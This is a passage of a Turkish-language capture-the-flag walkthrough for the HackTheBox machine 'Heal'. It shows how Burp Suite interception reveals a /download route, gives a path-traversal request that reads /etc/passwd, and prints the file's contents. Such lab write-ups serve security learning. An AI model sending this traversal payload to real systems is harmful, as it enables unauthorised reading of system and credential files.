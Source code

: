 Rastgele bir hesap kaydı oluşturun ve ardından şu URL'ye gidin: **[http://heal.htb/resume](http://heal.htb/resume)**.

**Burp Suite** kullanarak **intercept** özelliğini etkinleştirin ve ardından **EXPORT AS PDF** düğmesine tıklayın.

Üçüncü isteği ilettiğinizde, **/download** adlı bir rotanın bulunduğunu göreceksiniz. Bu rota, **herhangi bir dosyanın okunmasına** olanak tanıyor.

```
GET /download?filename=../../../../../etc/passwd
```

![Pasted image 20250120011408.png](/img/user/resimler/Pasted%20image%2020250120011408.png)

![Pasted image 20250120011949.png](/img/user/resimler/Pasted%20image%2020250120011949.png)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
ralph:x:1000:1000:ralph:/home/ralph:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
avahi:x:114:120:Avahi mDNS daemon,,,:/run/avahi-daemon:/usr/sbin/nologin
geoclue:x:115:121::/var/lib/geoclue:/usr/sbin/nologin
postgres:x:116:123:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/false
ron:x:1001:1001:,,,:/home/ron:/bin/bash
```
